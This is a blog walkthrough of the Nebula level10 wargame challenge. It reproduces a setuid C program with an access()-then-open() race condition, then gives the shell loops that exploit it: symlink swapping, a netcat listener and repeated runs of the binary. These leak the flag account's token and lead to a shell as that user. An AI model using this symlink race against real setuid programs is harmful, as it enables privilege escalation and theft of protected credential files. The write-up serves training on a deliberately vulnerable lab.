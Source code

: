 ```yaml
---
title: "Exploit Exercises Nebula Level10"
date: "2016-02-15"
slug: "exploit-exercises-nebula-level10"
Categories:
- Exploit Exercises
---
```


[level10] provides us with the following source code:

        #include <stdlib.h>
        #include <unistd.h>
        #include <sys/types.h>
        #include <stdio.h>
        #include <fcntl.h>
        #include <errno.h>
        #include <sys/socket.h>
        #include <netinet/in.h>
        #include <string.h>

        int main(int argc, char **argv)
        {
          char *file;
          char *host;

          if(argc < 3) {
              printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
              exit(1);
          }

          file = argv[1];
          host = argv[2];

          if(access(argv[1], R_OK) == 0) {
              int fd;
              int ffd;
              int rc;
              struct sockaddr_in sin;
              char buffer[4096];

              printf("Connecting to %s:18211 .. ", host); fflush(stdout);

              fd = socket(AF_INET, SOCK_STREAM, 0);

              memset(&sin, 0, sizeof(struct sockaddr_in));
              sin.sin_family = AF_INET;
              sin.sin_addr.s_addr = inet_addr(host);
              sin.sin_port = htons(18211);

              if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
                  printf("Unable to connect to host %s\n", host);
                  exit(EXIT_FAILURE);
              }

        #define HITHERE ".oO Oo.\n"
              if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
                  printf("Unable to write banner to host %s\n", host);
                  exit(EXIT_FAILURE);
              }
        #undef HITHERE

              printf("Connected!\nSending file .. "); fflush(stdout);

              ffd = open(file, O_RDONLY);
              if(ffd == -1) {
                  printf("Damn. Unable to open file\n");
                  exit(EXIT_FAILURE);
              }

              rc = read(ffd, buffer, sizeof(buffer));
              if(rc == -1) {
                  printf("Unable to read from file: %s\n", strerror(errno));
                  exit(EXIT_FAILURE);
              }

              write(fd, buffer, rc);

              printf("wrote file!\n");

          } else {
              printf("You don't have access to %s\n", file);
          }
        }

This challenge is a tough one, we need to trigger the race condition within the code.

The man page for access() confirms the suspicion: "**Warning:** Using access() to check if a user is authorized to,
for example, open a file before actually doing so using open(2) creates a security  hole,  because  the  user
might exploit the short time interval between checking and opening the file to manipulate it.  For this reason,
the use of this system call should be avoided." - Let's see if we can cause that to occur on *line 24*.

<!--more-->

I decided against using my local machine to run some of the listeners, so I opened a few terminals (four, to be exact) and logged in as the level10 user.

In the first terminal, I create a fake token in "/tmp/fake" which contains the string "foo". I use a while loop to create an infinite loop creating the symbolic link.

        level10@nebula:~$ echo "foo" > /tmp/fake
        level10@nebula:~$ while true; do ln -fs /tmp/fake token; ln -fs /home/flag10/token token; done

The next terminal contains another infinite loop containing my *netcat* listener (on port 18211 which was specified on line 38 of the original c code) that redirects the output to a file named "out".

        level10@nebula:~$ while true; do nc -l 18211 >> out; done

The third terminal is used to call the flag10 program and provide my token using 127.0.0.1 as the host. This is also placed in an infinite loop, it will need to execute a number of times to trigger the race condition.

        level10@nebula:~$ while true; do /home/flag10/flag10 /home/level10/token 127.0.0.1; done

Finally, the last terminal tails my output file. I use this to watch for the token:

        level10@nebula:~$ tail -f out
        .oO Oo.
        foo
        .oO Oo.
        foo
        .oO Oo.
        foo
        .oO Oo.
        615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
        .oO Oo.
        foo

Looks like the token is *615a2ce1-b2b5-4c76-8eed-8aa5c4015c27*. Let's check to see if that is the password for the flag10 user:

        level10@nebula:~$ su flag10
        Password:
        sh-4.2$ id
        uid=989(flag10) gid=989(flag10) groups=989(flag10)
        sh-4.2$ getflag
        You have successfully executed getflag on a target account

While I could have used *bg* and *fg* to minimize the amount of terminals I needed to use, I was simply building upon each step that I took. If I had a clearer solution for this challenge, I would have simply written a short python script to accomplish the goal.


[Mike][]

[Level10]: https://exploit-exercises.com/nebula/level10/ "Level10"
[Mike]: /contact "Contact Mike"

